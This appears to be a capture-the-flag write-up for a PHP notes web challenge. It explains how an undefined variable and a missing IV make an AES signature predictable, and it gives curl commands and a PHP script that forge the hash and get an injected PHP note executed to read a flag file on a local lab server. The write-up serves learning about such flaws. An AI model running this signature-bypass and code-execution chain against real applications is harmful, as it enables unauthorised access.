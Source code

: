 # certay-revenge

**Description:**  
_“Probably you need to understand our language to get some of the superpowers?”_  
But it’s fixed now.

---

## Overview
The website contains the following PHP files:

- `login.php`
- `register.php`
- `dashboard.php`
- `post_note.php`

After registering and logging in, a user is shown a textarea. However, submitting any text appears to do nothing.

Let’s dive into the source code for more details.

---

## Source Code Analysis

- The `login.php`, `register.php`, and `post_note.php` files contain no significant vulnerabilities.
- The interesting logic lies in the `dashboard.php` and `config.php` files.
- The `config.php` file contains a dangerous function, which becomes critical in the context of the dashboard.

From `dashboard.php`, here are the notable code snippets:

```php
define('yek', $_SESSION['yek']);

function safe_sign($data) {
    return openssl_encrypt($data, 'aes-256-cbc', KEY, 0, iv);
}

custom_sign($_GET['msg'], $yek, safe_sign($_GET['key'])) === $_GET['hash'];
```

---

## Technical Insight

### `define` vs Variable Declaration

**`define`:**

1. Used to declare constants (immutable values).
2. Constants do **not** start with `$`.
3. Constants are global and case-sensitive.
4. Cannot be changed or undefined once set.

**Regular Variable Declaration:**

1. Used to declare variables.
2. Variables **start with `$`**.
3. Can be reassigned.
4. Scope can vary: local, global, or static.

### Issue with IV in `openssl_encrypt`

If the IV is not properly passed to `openssl_encrypt()`:
- PHP pads it with null bytes (` `) if too short.
- If completely missing or incorrect (like `false`), it can result in unintended behavior and even insecure encryption.

---

## Key Vulnerabilities

### 1. Constant vs Variable Confusion
- `define('yek', $_SESSION['yek']);` defines a **constant** `yek`, but later code uses the **variable** `$yek`, which is uninitialized.
- As a result, `$yek` becomes `null`.

### 2. Undefined IV in `safe_sign()`
- The IV parameter (`iv`) is not defined in the function.
- If `$_GET['key']` is passed as an array, `safe_sign()` returns `false`.

### 3. Weak Encryption Parameters
In the `custom_sign()` call:
- `$key = null`
- `$iv = false`

This leads to:
- Key: effectively an empty string (because `null` is cast to `""`)
- IV: 16 null bytes (because `false` becomes an empty string, which gets padded)

This results in **predictable encryption** and allows the attacker to forge a valid hash.

---

## Exploitation Steps

### 1. Register an Account
```bash
curl -X POST -d "username=attacker&password=attacker" http://localhost:8080/register.php
```

### 2. Log In to Create a Session
```bash
curl -X POST -d "username=attacker&password=attacker" http://localhost:8080/login.php -c cookies.txt
```

### 3. Post a Malicious Note
```bash
curl -X POST -d "note=highlight_file('/tmp/flag.txt');" http://localhost:8080/post_note.php -b cookies.txt
```

### 4. Generate a Matching Hash to Bypass the Check

Create a PHP script:
```php
<?php
function custom_sign($data, $key, $vi) {
    return openssl_encrypt($data, 'aes-256-cbc', $key, 0, $vi);
}
echo custom_sign("test", null, false);
?>
```

This outputs a predictable signature because both key and IV are weak.

Let’s say it prints:
```
2HB5iFgiP0Vk00CxA/ZSew==
```

### 5. Bypass the Signature Check
```bash
curl "http://localhost:8080/dashboard.php?msg=hello&hash=2HB5iFgiP0Vk00CxA/ZSew==&key[]=" -b cookies.txt
```

Because the signature matches, the malicious `note` gets executed.

---

## FLAG

![flag](https://github.com/user-attachments/assets/c2f5a464-cbec-4445-92a7-2663f5e0ae53)
